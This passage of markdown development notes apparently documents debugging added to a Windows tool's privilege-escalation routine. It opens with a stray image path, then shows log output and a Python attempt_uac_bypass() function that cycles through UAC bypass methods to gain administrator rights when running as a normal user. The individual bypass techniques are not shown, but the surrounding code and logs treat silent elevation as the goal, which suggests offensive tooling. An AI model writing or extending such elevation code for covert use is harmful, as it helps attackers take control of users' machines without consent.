 **Output:**
```
[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] Starting privilege escalation...
[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] Windows detected - checking admin status...
[DEBUG] ❌ [ADMIN CHECK] Running as NORMAL USER (not admin)
[DEBUG] ================================================================================
[DEBUG] ❌ [PRIVILEGE ESCALATION] NOT ADMIN - NEED ELEVATION
[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] STEP 1: UAC bypass methods
[DEBUG] [UAC] Calling attempt_uac_bypass()...
```

---

### **4. UAC Bypass Debugging (Lines 1772-1816)**

**Enhanced attempt_uac_bypass():**
```python
def attempt_uac_bypass():
    debug_print("=" * 80)
    debug_print("[UAC BYPASS] attempt_uac_bypass() called")
    debug_print("=" * 80)
    
    debug_print("[UAC BYPASS] Checking if already admin...")
    if is_admin():
        debug_print("✅ [UAC BYPASS] Already admin - no bypass needed")
        return True
    
    debug_print("[UAC BYPASS] Not admin - starting UAC bypass...")
    debug_print("[UAC BYPASS] Initializing UAC Manager...")
    
    try:
        manager = get_uac_manager()
        debug_print(f"✅ [UAC BYPASS] UAC Manager initialized with {len(manager.methods)} methods")
    except Exception as e:
        debug_print(f"❌ [UAC BYPASS] UAC Manager initialization FAILED: {e}")
        traceback.print_exc()
        return False
    
    debug_print("[UAC BYPASS] Calling manager.try_all_methods()...")
    result = manager.try_all_methods()
    
    if result:
        debug_print("=" * 80)
        debug_print("✅✅✅ [UAC BYPASS] SUCCESS! Admin privileges gained!")
        debug_print("=" * 80)
    else:
        debug_print("=" * 80)
        debug_print("❌❌❌ [UAC BYPASS] FAILED! All methods failed!")
        debug_print("=" * 80)
    
    return result
```
